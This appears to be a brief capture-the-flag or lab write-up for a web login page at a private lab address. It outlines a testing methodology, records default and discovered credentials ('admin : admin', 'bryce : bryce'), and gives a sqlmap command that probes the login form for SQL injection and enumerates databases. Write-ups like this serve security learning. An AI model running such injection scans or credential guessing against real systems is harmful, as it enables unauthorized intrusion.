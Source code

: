 # BASIC INFO
```
export IP=10.10.255.243

```

# ESTABLISHING A METHODOLOGY

> 1.	Authorization
> 1.	Authentication
> 1.	Injection
> 1.	Client Side Controls
> 1.	Application Logic

# AUTHENTICATION

## WEAK CREADENTIALS

> **admin : admin**

```
/usr/bin/sqlmap -u http://10.10.255.243/users/login.php --method POST --data username=FUZZ&password=FUZZ -p username --dbs --dbms mysql --regexp "username/password combination" --level 2

```

## FOUND CREDENTIALS

> bryce : bryce